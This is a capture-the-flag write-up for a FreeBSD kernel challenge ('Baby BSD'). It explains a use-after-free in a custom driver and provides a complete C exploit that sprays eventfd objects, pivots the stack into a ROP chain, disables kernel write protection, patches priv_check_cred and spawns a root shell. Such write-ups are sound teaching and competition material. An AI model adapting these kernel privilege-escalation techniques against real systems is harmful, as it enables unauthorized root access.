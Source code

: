 # TeamItaly Preselection CTF 2024

## [pwn] Baby BSD (0 solves)

[first time?](https://i.ytimg.com/vi/hbEbD1Z_tNQ/mqdefault.jpg)

You can download the challenge files [here](https://cloud.cybersecnatlab.it/s/cCste67ijLBmKdj).

`nc babybsd.challs.external.open.ecsc2024.it 38318`

Author: Vincenzo Bonforte <@bonfee>

## Overview

The challenge is a freebsd kernel pwnable.  
The goal is to get root in the vm and read the flag located at `/dev/ada1`.  

The vm loads a custom kernel driver called `pwndev`, accessible through the device file at `/dev/pwn`.  
The driver features an ioctl handler with a fully controlled UAF write on a `malloc-128` heap chunk.  
SMAP, SMEP and KPTI are enabled, but not KASLR (it's not implemented in FreeBSD lemao).  

## Solution

One possible solution is to spray `eventfd` objects (they are allocated in `malloc-128`) which contains multiple function pointers that can be corrupted to get ROP.  

```c
struct eventfd {
    eventfd_t efd_count;
    uint32_t efd_flags;
    struct selinfo efd_sel; // [1]
    struct mtx efd_lock;
};

struct selinfo {
    struct selfdlist si_tdlist;
    struct knlist si_note; // [2]
    struct mtx *si_mtx;
};

struct knlist {
    struct    klist    kl_list;
    void (*kl_lock)(void *); // [3]
    void (*kl_unlock)(void *);
    void (*kl_assert_locked)(void *);
    void (*kl_assert_unlocked)(void *);
    void *kl_lockarg;
};
```

In the provided exploit a stack pivot gadget is used to pivot the stack to pages sprayed with mmap.  Luckily even the kernel linear mapping is not randomized. This step is just to simplify the ropchain and can be skipped by spraying other objects / choosing better gadgets.  

In the ropchain `cr0.wp` bit is modified to allow writing to read only pages and then the kernel function `priv_check_cred` is patched to always return 0.  
After returning to userland the exploit can simply invoke `setuid(0)` and get root.  
To return to userland cleanly the gadgets found at the end of the syscall handler can be used (`swapgs` + `cr3` switch + `sysretq`).

## Exploit

```c
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <err.h>
#include <poll.h>
#include <string.h>
#include <stdint.h>
#include <stdlib.h>
#include <sys/event.h>
#include <sys/eventfd.h>

int create_eventfd() {
    int fd = eventfd(0, 0);
    if (fd < 0)
        err(1, "eventfd");
    return fd;
}

struct pwndata {
    char data[128];
};

#define    PWN_IOC_ALLOC _IO('v', 0x00)
#define    PWN_IOC_FREE _IO('v', 0x01)
#define    PWN_IOC_EDIT _IOWR('v', 0x02, struct pwndata)

void shell() {
    puts("reached userspace shell");
    _exit(0);
}

uint64_t user_sp, user_rflags, user_rip = (uint64_t)shell;

void save_state() {
  __asm__(
    "mov %rsp, user_sp;"
    "pushf;"
    "pop user_rflags;"
  );
}

int main(int argc, char **argv) {
    if (argc == 2 && !strcmp(argv[1], "SHELL")) {
        setuid(0);
        system("/bin/sh");
        _exit(0);
    }

    uint64_t *p;

    // 0xffffffff80bccd66: mov rdi, rbx; call qword ptr [rbx+0x10];
    uint64_t MOV_RDI_RBX_CALL_RBX_0X10 = 0xffffffff80bccd66;
    // 0xffffffff80fd4dcf: mov rsp, [rdi+0x28]; mov rbx, [rdi+0x30]; mov rax, [rdi+0x38]; mov [rsp], rax; xor eax, eax; ret;
    uint64_t MOV_REGS = 0xffffffff80fd4dcf;
    // 0xffffffff80fdbe04: mov cr0, rax; ret;
    uint64_t MOV_CR0_RAX = 0xffffffff80fdbe04;
    // 0xffffffff810d32a2: pop rax; ret;
    uint64_t POP_RAX = 0xffffffff810d32a2;
    // 0xffffffff810d32a3: ret;
    uint64_t RET = 0xffffffff810d32a3;
    // 0xffffffff809b44d2: mov [rdi], rsi; ret;
    uint64_t WRITE_RSI_TO_RDI = 0xffffffff809b44d2;
    // 0xffffffff80f383ce: pop rsi; ret;
    uint64_t POP_RSI = 0xffffffff80f383ce;
    // 0xffffffff80fe2101: pop rdi; ret;
    uint64_t POP_RDI = 0xffffffff80fe2101;

    uint64_t RETURN_FROM_SYSCALL = 0xffffffff80fd7393;

    uint64_t PRIV_CHECK_CRED = 0xffffffff80b13230;
    uint64_t CHECK_PATCH = 0x9090909090c3c031; // xor eax, eax; ret
    uint64_t CR0_VAL = 0x8004003b;
    uint64_t SPRAYED_STACK = 0xfffff80000000000ULL+0x100000*400;

    size_t sprayed_stack_sz = 0x100000*500;
    void *sprayed_stack = mmap(NULL, sprayed_stack_sz, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (sprayed_stack == MAP_FAILED)
        err(1, "mmap");

    save_state();

    for (size_t i = 0; i < sprayed_stack_sz / 0x1000; i++) {
        p = (uint64_t*)((char*)sprayed_stack + 0x1000 * i);
        *p++ = 0; // will be overwritten
        *p++ = POP_RAX;
        *p++ = CR0_VAL;
        *p++ = MOV_CR0_RAX;
        *p++ = POP_RDI;
        *p++ = PRIV_CHECK_CRED;
        *p++ = POP_RSI;
        *p++ = CHECK_PATCH;
        *p++ = WRITE_RSI_TO_RDI;
        *p++ = RETURN_FROM_SYSCALL;

        *p++ = 1; // rdi
        *p++ = 2; // rsi
        *p++ = 3; // rdx
        p += 3;
        *p++ = 4; // rax
        p += 12;
        *p++ = user_rip; // rcx -> RIP
        *p++ = 2;
        *p++ = user_rflags; // r11 -> RFLAGS
        *p++ = user_sp; // rsp
    }

    int fd = open("/dev/pwn", O_RDONLY);
    if (fd < 0)
        err(1, "open");

    struct pwndata pwn;
    memset(pwn.data, 0x42, sizeof(pwn.data));

    ioctl(fd, PWN_IOC_ALLOC, NULL);
    ioctl(fd, PWN_IOC_FREE, NULL);

    int efds[512];
    puts("creating eventfds!");
    for (int i = 0; i < 512; i++)
        efds[i] = create_eventfd();
    puts("eventfds created!");

    p = (unsigned long*)&pwn.data;
    *p++ = 0x1123456789abcdef; // 0x00
    *p++ = 0x2123456789abcdef; // 0x08
    *p++ = 0x3123456789abcdef; // 0x10
    *p++ = 0x4123456789abcdef; // 0x18
    *p++ = 0x0; // 0x20 this must be 0 or panic in knote
    *p++ = MOV_RDI_RBX_CALL_RBX_0X10; // 0x28 <- first call
    *p++ = MOV_REGS; // 0x30 <- second call
    *p++ = 0x3333333333333333; // 0x38
    *p++ = 0x4444444444444444; // 0x40
    *p++ = SPRAYED_STACK; // 0x48
    *p++ = 0x0; // 0x50
    *p++ = RET; // 0x58 // first gadget with pivoted stack
    *p++ = 0x0000000001030000; // 0x60
    *p++ = 0x7777777777777777; // 0x68
    *p++ = 0x0; // 0x70
    *p++ = 0x9999999999999999; // 0x78

    ioctl(fd, PWN_IOC_EDIT, &pwn);

    int ntfds = 512;
    struct kevent chlist[ntfds]; 
    int kq = kqueue();

    for (int i = 0; i < ntfds; i++)
        EV_SET(&chlist[i], efds[i], EVFILT_READ, EV_ADD, 0, 0, 0);

    int ret = kevent(kq, chlist, ntfds, NULL, 0, NULL);
    if (ret < 0)
        err(1, "kevent");

    puts("done");
    return 0;
}
```
